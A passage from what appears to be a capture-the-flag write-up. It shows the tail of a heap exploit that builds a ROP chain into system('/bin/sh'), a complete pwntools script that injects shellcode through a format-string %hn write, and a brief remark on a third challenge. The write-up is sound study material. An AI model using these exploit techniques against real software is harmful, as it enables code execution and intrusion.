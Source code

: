```py
system_addr = libc_base + libc.symbols['system']
ret = libc_base + 0x40769
# gdb.attach(p)
# pause()
update(4, p64(ret_addr))
malloc(8, p64(ret_addr) + p64(ret) + p64(pop_rdi_ret) + p64(binshell_addr) + p64(system_addr))
menu()
p.sendline("0")

p.interactive()

```

## shellcode printer

It mmaps a rwx permission memory, and we can write shellcode to it using the format string vulnerability, then the program will execute the shellcode.

the only thing to mind is that the address it will start executing the shellcode is the last two bytes of it, so we need to append a `jmp -48` to the end of the shellcode, which will jump to the start of the shellcode for execution.

### exp

```py
from pwn import *
context(arch = "amd64", os = "linux", log_level = "debug")
p = process("./shellcode_printer")
shellcode = shellcraft.sh()
shellcode = asm(shellcode).decode("latin-1")
log.info(f"Shellcode length: {len(shellcode)}")
print(shellcode)
# gdb.attach(p)
# pause()
for i in range(0, len(shellcode), 2):
    value = shellcode[i:i+2]
    num = ord(value[0]) + (ord(value[1]) << 8)
    p.recvuntil("Enter a format string: ")
    p.sendline(f"%{num}c%6$hn")


p.recvuntil("Enter a format string: ")
p.sendline("%52971c%6$hn")  # \xeb\xce for the jmp -48 to jump to the start of our shellcode
p.recvuntil("Enter a format string: ")
p.sendline("\x00")
p.interactive()
```

## jctfcoin

Get flag with (probably) an unintended method with teammate UDP lol.
